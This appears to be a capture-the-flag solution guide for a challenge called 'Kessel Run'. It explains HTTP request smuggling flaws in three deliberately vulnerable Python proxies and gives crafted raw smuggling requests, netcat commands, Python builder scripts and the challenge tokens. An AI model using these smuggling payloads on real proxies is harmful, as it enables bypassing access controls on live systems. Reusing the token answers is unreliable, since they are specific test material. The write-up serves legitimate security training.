

# Kessel Run

*Solution Guide*

## Overview

In Kessel Run, the competitor must exploit a series of HTTP smuggling vulnerabilities in three proxy servers. Each proxy server is based off the same Python source code, but are slightly modified to introduce a different vulnerability. In order, the competitor must exploit: 

1. a Content-Length/Transfer-Encoding (CL.TE) vulnerability between `channel.us` and `maelstrom.us`, 
2. a Transfer-Encoding/Content-Length (TE.CL) vulnerability between `maelstrom.us` and `maw.us`, 
3. and a Carriage Return/Line Feed (CR.LF) vulnerability between `maw.us` and `kessel.us`. 

All three of these vulnerabilities will need to be combined into a single HTTP request in order to reach the final token on `kessel.us`.


A full solution script is available: [sol.py](./sol.py)

## Question 1

*Token 1: Retrieve the token found at `/token` on `maelstrom.us` after passing through `channel.us`.*

*Enter the token found after accessing /token in the Maelstrom.*

For the first token, we need to access `maelstrom.us:8080/token`. Let's begin by taking a look at what we have access to; from the network diagram provided as part of the challenge description, we can visit `channel.us:8080/channel` and `channel.us:8080/maelstrom`. For now, we can do so using a browser such as Firefox.


Trying to visit `channel.us:8080/token` or `maelstrom.us:8080/token` does not work. The first option gives us an empty token file on `channel.us` and the second fails with "Server Not Found" as it isn't routed through the proxy. We've gained a little big of intel on the system, but we should now pivot to the proxy code provided on `challenge.us`.

Visit `challenge.us`, download the `proxies_provided.zip` file, and use unzip to extract the code: `unzip proxies_provided.zip`.
We find the following in the zip file:

- directories for each proxy, each of which contain:
  - a proxy.py file (e.g., `channel.py`) that is the Python source code for the `channel.us` proxy
  - a proxy.html file (e.g., `channel.html`) that is placeholder HTML text for the proxy
  - a token.html file that is another placeholder HTML text for the proxy
- `run.sh`, a bash script that contains the command needed to run all four proxies at once and log their output 

First, let's check out `run.sh` and see how it works. Make the file executable with `chmod +x ./run.sh`, then run the script with `./run.sh`. The script will output something similar to the following. You can press `CTRL+C` to stop the servers at any time (for example, if you want to restart and clear the logs).

```bash
[Maelstrom] 2025-02-12 22:25:08,603 INFO Server running on 0:8081
[Channel] 2025-02-12 22:25:08,636 INFO Server running on 0:8080
[Kessel] 2025-02-12 22:25:08,665 INFO Server running on 0:8083
[Maw] 2025-02-12 22:25:08,670 INFO Server running on 0:8082
```

Just as the challenge description described, we now have each of the proxies running on our local devices on ports 8080 to 8083. Let's confirm this by visiting the open port, but instead of using Firefox, use `curl` in another terminal window: `curl -v localhost:8080`. By using `curl` with `-v` (for verbose) we can see exactly what the HTTP request looks like.


Watching the terminal running `run.sh`, we can see that more logging information from `channel` is output, and if we read that output it will match the request shown in the `curl -v` output. For example, we can see the `User-Agent` header. This will be very helpful for debugging the proxy as we work towards identifying our HTTP smuggling vulnerability.

Now we need to start digging into the weeds a bit; at this point, many competitors might start messing with the HTTP request to see how the server responds, looking for odd behavior. Let's instead begin by reviewing the source code in depth. Using VS Code or another editor of your choice, open the [channel.py](../challenge/artifacts/proxies_provided/channel/channel.py) file: `code channel/channel.py`.

The code has comments throughout explaining the purposes of each function and other significant code blocks. Of particular importance is the `handleRequests` function. Usually, HTTP smuggling is possible due to differences in how headers are handled. Let's take a look at that section of the `handleRequests` function now:

```python
# The work horse of the server
# Retrieves and handles the incoming HTTP requests
def handleRequests(self):
    lines = self.linesGen()
    while True:
        
        ...

        # Handle these headers:
        # Connection Content-Length Content-Type Transfer-Encoding
        body = None
        headers = []
        keep_alive = True
        for line in request[2:]:
            vals = line.split(": ", 1)
            if len(vals) != 2:
                continue  # Just drop bad headers
            header = vals[0]
            val = vals[1]

            if header == "Connection":
                # Check if this is the last request
                if val != "keep-alive":
                    logging.info("Final request, connection set to close")
                    keep_alive = False
                else:
                    logging.info("Connection will remain open")
                    keep_alive = True
                headers.append(line) # Put it back for use in response
            elif header == "Content-Length":
                try:
                    size = int(val)
                except ValueError:
                    # Bad size
                    size = MAX_BODY_SIZE + 1 
                if size > MAX_BODY_SIZE:
                    logging.info("Malformed request -- Content length was too long")
                    response = self.craftResponse(413, "", ["Connection: close"])
                    self.socket.sendall(response.encode('utf-8'))
                    return
                else:
                    # Grab next size bytes as the data
                    body = self.getData(size)
                    # Need to escape for logging purposes
                    log = body.replace('\n', '\\n').replace('\r', '\\r')
                    logging.info(f"Packet body ({size}) - {log}")
            elif header == "Transfer-Encoding" and body is None:
                if val != "chunked":  # Only supporting chunked at the moment
                    logging.info("Malformed request -- Bad transfer-encoding")
                    response = self.craftResponse(501, "", ["Connection: close"])
                    self.socket.sendall(response.encode('utf-8'))
                    return       
                body = []
                # Retrieve size of first chunk
                line = next(lines).strip()
                while line != "" and line != "0":
                    try:
                        # If size valid, grab next size bytes as data
                        body.append(self.getData(int(line, 16)))
                    except ValueError:
                        logging.info("Malformed request -- Bad data size for transfer encoding")
                        response = self.craftResponse(501, "", ["Connection: close"])
                        self.socket.sendall(response.encode('utf-8'))
                        return
                    next(lines)  # Consume the new line left over from above
                    line = next(lines).strip() # Retrieve size of next chunk
                next(lines)  # Consume the final empty line following the "0"
                # Need to escape for logging purposes
                log = '~'.join(body).replace('\n', '\\n').replace('\r', '\\r')
                logging.info(f"Packet chunks - {log}")
            else:
                # Unknown header - just slap it on there I guess
                logging.info(f"Extra header appended: {line}")
                headers.append(line)
```

From the code (and comments), we can see that the headers that the proxy handles are:

- Connection 
- Content-Length 
- Content-Type 
- Transfer-Encoding

Any other (valid) headers are kept. `Content-Length` and `Transfer-Encoding` are a common area to target for HTTP smuggling attacks. Let's take a look at just the `if-else` structure for the headers:

```python
if header == "Connection":
    pass
elif header == "Content-Length":
    pass
elif header == "Transfer-Encoding" and body is None:
    pass
else:
    # Unknown header - just slap it on there I guess
    logging.info(f"Extra header appended: {line}")
    headers.append(line)
```

The `Content-Length` and `Transfer-Encoding` are handled slightly differently in this case. The `Transfer-Encoding` is only handled if the `body` variable is already set to some value. The `body` variable is empty until something is read by either the `Content-Length` and `Transfer-Encoding` (we will go over how those headers work when we begin crafting our malicious request). 

What would happen if `Transfer-Encoding` is found in the header but the `body` has already been set by the `Content-Length`? In that case, the `elif` would be false, and the `else` branch would be run; this would result in the `Transfer-Encoding` header being incorrectly kept. We can see the headers being sent to the proxy later in the `craftRequest` function.

```python
# Crafts a HTTP request to send to out Proxy
def craftRequest(self, method, path, body, headers):
    # Line 1
    request = f"{method} {path} HTTP/1.1{CR_LF}"
    # Host line should be our proxy 
    request += f"Host: {PROXY}:{PROXY_PORT}{CR_LF}"
    # Only one request to the proxy
    request += f"Connection: close{CR_LF}"  # Only want to make one request
    for h in headers:  # Custom headers
        request += h + f"{CR_LF}"
    if isinstance(body, str) and body != "":
        # Add content length and the body
        request += f"Content-Length: {len(body) + len(CR_LF)}{CR_LF}"
        request += f"{CR_LF}{body}{CR_LF}"
    elif isinstance(body, list) and len(body) != 0:
        # Add transfer encoding and the body
        request += f"Transfer-Encoding: chunked{CR_LF}{CR_LF}"
        for b in body:
            request += f"{len(b)}{CR_LF}"
            request += f"{b}{CR_LF}"
        request += f"0{CR_LF}{CR_LF}"
    else:
        # No body (for my oooown oooohaaaaaaaa)
        request += f"{CR_LF}"
    return request
```

This function creates a response to be sent to the proxy. The extra headers are added to the request first, and then the `Content-Length` or `Transfer-Encoding` body is added on after. Let's combine all this together on an example HTTP request:

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Content-Length: 10
Transfer-Encoding: chunked

helloworld
```

In this case, the `Content-Length` header will cause 10 bytes to be read, and `body` will be set. The `Transfer-Encoding` will then just be ignored and appended to the list of headers. The server then creates the new proxy request, which will look like the following based on the Python code:

```http
POST /maelstrom HTTP/1.1
Host: maelstrom.us:8080
Connection: close
Transfer-Encoding: chunked
Content-Length: 10

helloworld
```

The incorrect `Transfer-Encoding` has been kept and is now first on the list! If we look at `maelstrom.py`, the headers are handled in a similar fashion, from the top down; however, the `Content-Length` now has the incorrect handling.

```python
elif header == "Content-Length" and body is None:
    pass
elif header == "Transfer-Encoding":
```

This means that `maelstrom` will receive a very different request than the one `channel` intended to send. Instead of using `Content-Length`, it will use `Transfer-Encoding`. Let's try this out. Using `curl` will now be a pain (it is doable though) since we want to add send an odd, invalid request; we could use Burpsuite, but that will also become burdensome when we want to do the later steps. 

Instead, copy the malicious request into a file named `request.http` and we will use that with `netcat`, a program which simply connects to an IP address on a given port. Note we also need to use Windows-style line termination (`\r\n`); this can be done using the command `unix2dos`.

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Content-Length: 10
Transfer-Encoding: chunked

helloworld
```

```bash
unix2dos request.http
cat request.http | nc localhost 8080
```

After doing so, we can check the logging, and find output similar to the below. Reading through `Channel` first in the beginning, we can see the first request working as normal, with the packet body being received as normal (we can see 10 bytes read, "helloworld"). However, the `Maelstrom` logging shows that it failed with a "Malformed request -- Bad data size for transfer encoding". This is because `Maelstrom` tried to read the body as encoded chunks, and could not do so since the body is not chunked.


This is vulnerable to a CL.TE HTTP smuggling attack. A good HTTP request with a chunked `Transfer-Encoding` looks like the following (I've added "comments" to the body to explain).

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Transfer-Encoding: chunked

a            //Size, in hex, of the first chunk
1234567890   //Chunk 1, size 10 (0xa)
2            //Size of chunk 2
12           //Chunk 2, size 2 (0x2)
0            //Size of 0 represents end of chunked data

```

What we want to do is create an HTTP request where the body contains another HTTP request, with a correct `Content-Length`, so that both are sent through the proxy as a single request. It should also include a `Transfer-Encoding: chunked` and a fake `0` chunk so that `Maelstrom` will mistakenly split them apart. The second request should have `Host: maelstrom.us:8080` since that is the server that will be processing the smuggled request, and it should also request `/token` as the path. The following request looks like this:

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Connection: keep-alive
Content-Length: 63
Transfer-Encoding: chunked

0

POST /token HTTP/1.1
Host: maelstrom.us:8080

```

<details>
<summary>Step by step walkthrough of that example</summary>

This is the request as `channel.us` will see it, including the newline characters.

```http
POST /maelstrom HTTP/1.1\r\n
Host: channel.us:8080\r\n
Connection: keep-alive\r\n
Content-Length: 63\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
POST /token HTTP/1.1\r\n
Host: maelstrom.us:8080\r\n
\r\n
```

Since the `Content-Length` is 63, `channel.us` will see the following as the body, note there is an extra empty line.

```http
0

POST /token HTTP/1.1
Host: maelstrom.us:8080

```

That body will then be sent to `maelstrom.us` as part of a new request which will look like this.

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Connection: close
Connection: keep-alive
Transfer-Encoding: chunked
Content-Length: 63

0

POST /token HTTP/1.1
Host: maelstrom.us:8080

```

When `maelstrom` parses the header `Transfer-Encoding: chunked`, it begins reading the body and finds a "0", and stops reading the body. That leaves the following in the socket still to be read:

```http
POST /token HTTP/1.1
Host: maelstrom.us:8080

```

Now `maelstrom.us` continues to read from the socket since the `Connection` is set to `keep-alive`, and believes this to be a second request, which it fulfills and sends back to `channel.us` (and thus back to us).

</details>

Note that the content length includes the non-printing `\r\n` characters at the end of each line (includes the 0 to the final empty line). Also note that we need to add `Connection: keep-alive`; without that option, `maelstrom` will parse our first request and immediately close (this is actually another bug with the proxy as it allows for multiple `Connection` headers and uses the last value). Copy that into the `http.request` file and pass it to our test proxy using `nc`.

```bash
unix2dos request.http
cat request.http | nc localhost 8080
```


We can see first the two `Connection` headers and that the proxy says it will close the connection and then also says the connection will remain open. Then we can see that Maelstrom actually handles two requests and in our `netcat` output we can see the "Sample Maelstrom Token File"! Switch to running `netcat` on the real `channel.us` now: 

```bash
cat request.http | nc channel.us 8080
```


In this case, the token was `af11d8ae6422`.

## Question 2

*Token 2: Retrieve the token found at `/token` on `maw.us` after passing through `maelstrom.us`.*

*Enter the token found after accessing /token in the Maw.*

Before we continue, we will need a reliable way to smuggle requests past `channel.us` to make progress towards Kessel. That is, whatever request we need to reach `maw.us` will need to take advantage of the CL.TE vulnerability from Token 1. Having to change the content length by hand every time would be tiresome. Using a tool like Burpsuite might be possible, but I don't believe it's well-suited to the multi-layered request smuggling we need to do.

Instead, let's write some simple Python to generate the request. The following code takes an inner request, adds a "0" chunk to the beginning, and calculates the correct length. With the request generated we can write some Python sockets to send it directly to the server, or we could output to a file and use `netcat` like before. For now, this is sufficient.

```python
def passChannel(innerRequest):
    chunk = "0\r\n\r\n"
    request = f"POST /maelstrom HTTP/1.1\r\n"
    request += "Host: channel.us:8080\r\n"
    request += f"Content-Length: {len(innerRequest) + len(chunk)}\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += "Connection: keep-alive\r\n"
    request += f"\r\n{chunk}{innerRequest}"

    return request
```

With that settled, we can now look towards smuggling a packet past `maelstrom` to `maw`. Fortunately, we have actually already discovered the vulnerability! We found that `maelstrom.us` had the following code which was really similar to `channel.us`.

```python
elif header == "Content-Length" and body is None:
    pass
elif header == "Transfer-Encoding":
```

We can do basically the same thing as before, but this time we need to do TE.CL; that is, our first request needs to use `Transfer-Encoding` and our smuggled request will use `Content-Length`. Such a request would look like the following. Note that is 0x2e, as the chunk is 46 bytes long (including the `\r\n` after the first line and after the `Host` header). The content length is only 4 bytes; when `maw.us` uses the `Content-Length`, it will consume the `2e\r\n` and leave the smuggled request. Finally, the first 0 will end the `Transfer-Encoding` when `maw.us` parses it.

```http
POST /maw HTTP/1.1
Host: maelstrom.us:8080
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

2e
0

POST /token HTTP/1.1
Host: maw.us:8080

0

```

<details>
<summary>Step by step walkthrough of that example</summary>

This is the request as `maelstrom.us` will see it, including the newline characters.

```http
POST /maw HTTP/1.1\r\n
Host: maelstrom.us:8080\r\n
Transfer-Encoding: chunked\r\n
Connection: keep-alive\r\n
Content-Length: 4\r\n
\r\n
2e\r\n
0\r\n
\r\n
POST /token HTTP/1.1\r\n
Host: maw.us:8080\r\n
\r\n
0\r\n
\r\n
```

The `maelstrom` proxy begins with the `Transfer-Encoding`, and reads the size of the first chunk is `0x2e`. This is the following:

```http
0

POST /token HTTP/1.1
Host: maw.us:8080
```

After that, `maelstrom` sees a 0 and stops reading.

The following request is then sent to `maw.us`.

```http
POST /maw HTTP/1.1
Host: maw.us:8080
Connection: close
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked

2e
0

POST /token HTTP/1.1
Host: maw.us:8080

0

```

Since the `Content-Length` is 4, `maw.us` will see the following as the body.

```http
2e\r\n
```

That leaves the following:

```http
0

POST /token HTTP/1.1
Host: maw.us:8080

0

```

Now `maw.us` begins parsing the encoded chunks, but immediately finds the 0 and stops. That leaves the following request, which `maw.us` will parse as normal. 

It will then throw a `400` error upon finding the last zero, but at that point, the request has succeeded. If you wanted to avoid that error, though, you could change the inner/smuggled request to have a `Transfer-Encoding: chunked` so that the 0 is correctly consumed. This would, of course, also require changing the size of the first chunk in the original request. Alternatively, you could add `Connection : close` so the server stops before reading the 0.

```http
POST /token HTTP/1.1
Host: maw.us:8080
Transfer-Encoding: chunked

0
```

</details>

With our `localhost` proxies, we can test this directly and skip `channel.us` for now. As in Token 1, save that request to a file and use `netcat` with port `8081`.

```bash
unix2dos http.request
cat http.request | nc localhost 8081
```

Checking the log and output from `netcat`, we can see that we receive the sample token file.


This means we can now smuggle from `channel.us` to `maelstrom.us` and from `maelstrom.us` to `maw.us`. We need to combine these for it to work on the real thing, however. We can use our Python code from earlier for this!

```python
def passChannel(innerRequest):
    chunk = "0\r\n\r\n"
    request = f"POST /maelstrom HTTP/1.1\r\n"
    request += "Host: channel.us:8080\r\n"
    request += f"Content-Length: {len(innerRequest) + len(chunk)}\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += "Connection: keep-alive\r\n"
    request += f"\r\n{chunk}{innerRequest}"

    return request

with open("request.http", "rb") as r:
    with open("newrequest.http", "w") as w:
        w.write(passChannel(r.read().decode('utf-8')))
```

This nests our `maelstrom` to `maw` request in a `channel` to `maelstrom` request in the file `newrequest.http`. Note that Python will convert `\r\n` to `\n` when reading, so we use `rb` to read as binary and avoid this. In this case, I saved the Python code in a file named `buildRequest.py`.

```bash
unix2dos request.http
python3 buildRequest.py
```

The created `newRequest.http` looks like this:

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Content-Length: 180
Transfer-Encoding: chunked
Connection: keep-alive

0

POST /maw HTTP/1.1
Host: maelstrom.us:8080
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

2e
0

POST /token HTTP/1.1
Host: maw.us:8080

0


```


Sending that to localhost with `netcat`, as before, we get the following output. We can see it travel through the various proxies in the logs, and we can also see that we receive all three of the responses: the maelstrom file, the maw file, and the maw token file. Now we just need to run it on the real thing.

```bash
unix2dos request.http
python3 buildRequest.py
cat newrequest.http | nc channel.us 8080
```


In this case, the token was `9dc1ddc6ff6e`.

## Question 3

*Token 3: Retrieve the token found at `/token` on `kessel.us` after passing through `maw.us`.*

*Enter the token found after accessing /token on Kessel.*

Just like before, we should take a moment to prepare; our requests to `kessel` will need to pass through the `channel`, `maelstrom`, and `maw` first, and building that request by hand would be annoying. This code takes a request from the `request.http` file and adds both of the previous exploits to it.

```python
def passChannel(innerRequest):
    chunk = "0\r\n\r\n"
    request = f"POST /maelstrom HTTP/1.1\r\n"
    request += "Host: channel.us:8080\r\n"
    request += f"Content-Length: {len(innerRequest) + len(chunk)}\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += "Connection: keep-alive\r\n"
    request += f"\r\n{chunk}{innerRequest}"

    return request

def passMaelstrom(innerRequest):
    innerRequest = "0\r\n\r\n" + innerRequest
    transferEncoding =  f"{len(innerRequest):x}\r\n"
    request = f"POST /maw HTTP/1.1\r\n"
    request += "Host: maelstrom.us:8080\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += f"Content-Length: {len(transferEncoding)}\r\n"
    request += "Connection: keep-alive\r\n"
    request += "\r\n" +  transferEncoding + innerRequest + "\r\n" + "0\r\n\r\n"

    return passChannel(request)

with open("request.http", "rb") as r:
    with open("newrequest.http", "w") as w:
        w.write(passMaelstrom(r.read().decode('utf-8')))
```

Unfortunately, we don't know yet where the vulnerability in `maw.us` is. If we check the location where the other proxies were vulnerable in `maw.py`, both headers are now handled correctly and are not incorrectly appended to the headers list. Instead, multiple headers will cause the proxy to continuously process and replace the body, and only the final received body will be sent to the proxy (a proper proxy should throw an error, but handling it this way does not afford us anything to exploit).

```python
if header == "Connection":
    pass
elif header == "Content-Length":
    pass
elif header == "Transfer-Encoding":
    pass
else:
    # Unknown header - just slap it on there I guess
    logging.info(f"Extra header appended: {line}")
    headers.append(line)
```

One technique we can use to try and find the vulnerability is to perform a `diff` of the proxies. In this case, we will limit it to just the first few lines using the `head` command.

```bash
diff kessel/kessel.py maw/maw.py | head
```

```none
9c9
< NEW_LINE = "\n"
---
> LINE_SEP = "\r\n"
11c11
< ALLOWED_URLS = ["/", "/kessel", "/token"]
---
> ALLOWED_URLS = ["/", "/maw", "/token", "/kessel"]
13c13
< HOST_ALIASES = ["kessel.us", "kessel.us:8080"]
```

The proxies have different new line characters; `kessel.us` use `\n` while `maw.us` (and all the other proxies) use `\r\n`. Consider the following simple request with the new line characters shown:

```http
POST /test HTTP/1.1\r\n
Host: test:8080\r\n
Test: test\n
Another: test\r\n
\r\n
```

This will be parsed different by the two proxies. The `kessel.us` will separate by `\n` (and it then calls the `strip` function in Python to remove any whitespace which includes `\r`), so this works correctly and all three headers will be read and separated correctly.  However, for `maw.us`, the `Test` header line will not be correctly parsed. Since `\n` is not recognized as a new line by itself, the headers will be parsed like this by `maw.us`.

```http
Host: test:8080
Test: test\nAnother: test
```

The `Another` header is considered part of the `Test` header. That is, `maw.us` believes the value of the `Test` header is `test\nAnother: test`; `kessel.us` see three headers, while `maw.us` sees online two. We can take advantage of this to sneak in another request. Consider the following request:

```http
POST /kessel HTTP/1.1\r\n
Host: maw.us:8080\r\n
Connection: keep-alive\r\n
Test: test\n
\n
POST /token HTTP/1.1\n
Host: kessel.us:8080\r\n
\r\n
```

This will be parsed by `maw.us` as the following, with the incorrect `Test` header. 

```http
POST /kessel HTTP/1.1
Host: maw.us:8080
Connection: keep-alive
Test: test\n\nPOST /token HTTP/1.1\nHost: kessel.us:8080

```

On the other hand, `kessel.us` will parse this with `Test` having a value of just `test`, and the following request will be seen as an entirely separate second request.

```http
POST /kessel HTTP/1.1
Host: maw.us:8080
Connection: keep-alive
Test: test

POST /token HTTP/1.1
Host: kessel.us:8080

```

We don't need to do any calculations this time around, but we do need to make sure the `\r\n` and `\n` characters are all correctly handled, so it's probably best to do this in Python (we will then also have access to our previous functions when we need them).

```python
def passChannel(innerRequest):
    chunk = "0\r\n\r\n"
    request = f"POST /maelstrom HTTP/1.1\r\n"
    request += "Host: channel.us:8080\r\n"
    request += f"Content-Length: {len(innerRequest) + len(chunk)}\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += "Connection: keep-alive\r\n"
    request += f"\r\n{chunk}{innerRequest}"

    return request

def passMaelstrom(innerRequest):
    innerRequest = "0\r\n\r\n" + innerRequest
    transferEncoding =  f"{len(innerRequest):x}\r\n"
    request = f"POST /maw HTTP/1.1\r\n"
    request += "Host: maelstrom.us:8080\r\n"
    request += "Transfer-Encoding: chunked\r\n"
    request += f"Content-Length: {len(transferEncoding)}\r\n"
    request += "Connection: keep-alive\r\n"
    request += "\r\n" +  transferEncoding + innerRequest + "\r\n" + "0\r\n\r\n"

    return passChannel(request)

request = "POST /kessel HTTP/1.1\r\n"
request += "Host: maw.us:8080\r\n"
request += "Connection: keep-alive\r\n"
request += "Test: test\n"
request += "\n"
request += "POST /token HTTP/1.1\n"
request += "Host: kessel.us:8080\n"
request += "Connection: close\r\n"
request += "\r\n"

with open("mawKessel.http", "w") as w:
    w.write(request)
with open("fullRequest.http", "w") as w:
    w.write(passMaelstrom(request))  
```

Run that Python code to create `mawKessel.http` and `fullRequest.http`, and then use `netcat` to send that HTTP request to our local `maw` proxy on port 8082.

```bash
python3 buildRequest.py
cat mawKessel.http | nc localhost 8082
```



As with our previous smuggling attempts, we can see the Token file is output in our `netcat` command, and we can see the proxies handling multiple requests in the proxy logging. Now let's try passing the full request, which consists of the following, to the real proxies.

```bash
cat fullRequest.http | nc channel.us 8080
```

```http
POST /maelstrom HTTP/1.1
Host: channel:8080
Content-Length: 259
Transfer-Encoding: chunked
Connection: keep-alive

0

POST /maw HTTP/1.1
Host: maelstrom:8080
Transfer-Encoding: chunked
Content-Length: 4
Connection: keep-alive

80
0

POST /kessel HTTP/1.1
Host: maw.us:8080
Connection: keep-alive
Test: test

POST /token HTTP/1.1
Host: kessel.us:8080


0


```


In this case, the token was `7365f6becb52`.